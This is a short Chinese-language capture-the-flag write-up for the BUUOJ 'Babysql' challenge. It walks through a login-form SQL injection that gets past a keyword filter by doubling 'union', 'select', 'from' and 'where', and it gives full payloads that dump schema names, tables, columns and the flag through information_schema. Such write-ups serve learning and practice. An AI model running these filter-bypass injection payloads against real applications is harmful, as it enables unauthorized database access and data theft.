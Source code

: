 ### buuoj_[极客大挑战 2019]Babysql

打开一看又是熟悉的界面，看了下源代码，没什么东西

随便输了几个用户名密码进去，有报错，且username是双引号闭合，password是单引号闭合

试一下万能密码，但是好像有什么被过滤了（测试发现包括or and from where select union等）

再试试其他的

```
?username=admin&password=1' union select 1,2 #
```

很明显，union select  都被过滤了，试一下双写绕过

```
?username=admin&password=1 ' ununionion selselectect 1,2 #
```

这个井号不行，换成%23就可以了，再测一下就可以得到列数

![image-20210802182946588](C:\Users\EXCEPTION\AppData\Roaming\Typora\typora-user-images\image-20210802182946588.png)

接下来一套组合拳

```
#爆库
username=admin&password=1 %27 ununionion seselectlect 1,2,group_concat(schema_name) frfromom (infoorrmation_schema.schemata) %23
#爆表
?username=admin&password=1 ' ununionion selselectect 1,(seleselectct 
group_concat(table_name) frfromom infoorrmation_schema.tables whwhereere table_schema='ctf'),3  %23
#爆字段
?username=admin&password=1 %27 ununionion seselectlect 1,2,group_concat(column_name) frfromom (infoorrmation_schema.columns) whwhereere table_name="Flag" %23
#爆数据
?username=admin&password=1 %27 ununionion seselectlect 1,2,group_concat(flag)frfromom(ctf.Flag) %23
```

![](https://pic.imgdb.cn/item/6107cbbc5132923bf8272816.jpg)

完成